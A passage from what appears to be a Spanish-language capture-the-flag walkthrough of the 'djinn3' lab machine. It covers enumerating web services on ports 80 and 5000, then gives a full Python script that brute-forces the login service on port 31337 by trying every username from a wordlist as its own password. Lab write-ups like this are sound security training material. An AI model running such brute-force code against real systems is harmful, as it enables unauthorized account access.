 >Vamos a intentar analizar la web que corre por el puerto 80. Es un sitio estático. Habla sobre unos 'tickets' y un sistema aparte, que puede ser el servicio que no reconoció `nmap` corriendo en el puerto 31337.

![2.png]({%link assets/img/djinn3/2.png%})

>Si vamos a ver la web que corre por el puerto 5000, nos encontramos estos 'tickets'.

![3.png]({%link assets/img/djinn3/3.png%})

![4.png]({%link assets/img/djinn3/4.png%})

>Vemos una lista de posibles usuarios. Quizás tengamos que iniciar sesión con fuerza bruta por ssh. Seguimos investigando.

>Si nos intentamos conectar con `nc` al puerto 31337 de la máquina víctima, veremos que nos pide una sesión con credenciales válidas. Para eso, desarrollamos un simple script en python que pruebe credenciales con mismo usuario y contraseña. El script es el siguiente:

```python
#!/usr/bin/env python3

import socket,sys,signal
from termcolor import colored
import time 

IP='192.168.216.153'
PORT=31337

def ctrl_c(sig,frame):
    print(colored("[!] Exiting...", "red"))
    sys.exit(1);

signal.signal(signal.SIGINT,ctrl_c)

def bruteforce():
    with open("/usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt", "rb") as f:
        for username in f.readlines():
            username = username.strip();
            password = username;
            with socket.socket(socket.AF_INET,socket.SOCK_STREAM) as s:
                s.connect((IP,PORT));
                data = s.recv(1024);
                s.send(username + b"\n");
                data = s.recv(1024);
                s.send(password + b"\n");
                
                response = s.recv(1024);
                if(b'authentication failed' not in response):
                    print(f"[+] CREDENTIALS ARE {username}:{password}");
                    break;
                else:
                    continue;

if __name__ == '__main__':
    bruteforce();
```
